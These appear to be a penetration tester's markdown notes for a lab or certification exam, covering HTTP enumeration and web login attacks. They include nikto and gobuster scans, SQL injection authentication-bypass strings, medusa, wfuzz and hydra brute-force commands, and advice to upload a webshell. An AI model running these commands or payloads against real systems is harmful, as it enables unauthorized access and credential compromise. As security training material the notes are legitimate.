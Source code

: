 ```
  - any names that could be usernames for bruteforce/guessing.


# Enumerating HTTP
#### Web-based targets:
```Curl -i $IP/robots.txt```

```nikto -h 10.11.1.229```

```gobuster -u 10.11.1.229 -w /usr/share/seclist/Discover/Web/common.txt -s 200,204,301,302,307,403,500 -e```

  - ```/dirbuster/medium-2.3```
  
#### Browse the website: 
- Begin burpsuite and foxy proxy - ensure it is mapping
- Manually browse wegpages, based on output from nikto and gobuster
- Click ALL links, lookout for: 
  - logon page; 
  - comment field; 
  - LFI/RFI/SQLi -able URL; 
  - file upload; 
  - interactive OS injection; 
  - php files/pages able to be injected.

#### LOGON PAGE:
- For all logon pages - View ```page-source``` 
- Password guessing for default webapps (PHPMyAdmin: root/null)
- brute if you have Enumerated users
- Attempt SQLi auth bypass using ALL the queries below, for both User and Password fields
- make sure you are fuzzing the correct php file by following the authentication process in Burp:

````
Admin' OR 1=1
Admin' OR 1=1;
Admin' OR 1=1;#
Admin' OR 1=1;--
Admin' OR 1=1#
Admin' OR 1=1-- -
````

```medusa 10.11.1.229 -u admin -P passwords.txt -M http -m DIR:/printers -T 10```

```
wfuzz -u http://192.168.1.48/index.php -c -z file,/usr/share/wfuzz/wordlist/Injections/SQL.txt -d "uname=admin&psw=FUZZ&btnLogin=Login"
```

```
wfuzz --hh 109 -d "myusername=admin&mypassword=FUZZ&Submit=Login" -u "http://192.168.1.20/checklogin.php" -z file,/usr/share/wfuzz/wordlist/Injections/SQL.txt
```

```
hydra -L names -P /usr/share/wordlists/fasttrack.txt 192.168.1.20 http-post-form "/checklogin.php:myusername=^USER^&mypassword=^PASS^&Submit=Login:Wrong Username or Password"
```

```sqlmap -u 10.11.1.13 --crawl=1``` - ****banned do not use! ****

# Enumerate Web Application
#### Web Application target
```Curl``` and enum for versioning: OS, Server, language(s), Web Application, DB
- View ```page-source```; commented code and webapp version
  - Search webapp version and pull it - docs and structure / or straight exploit
- Look for an interface to upload files (that includes installing plugins) - upload a webshell & browse to execute!!
````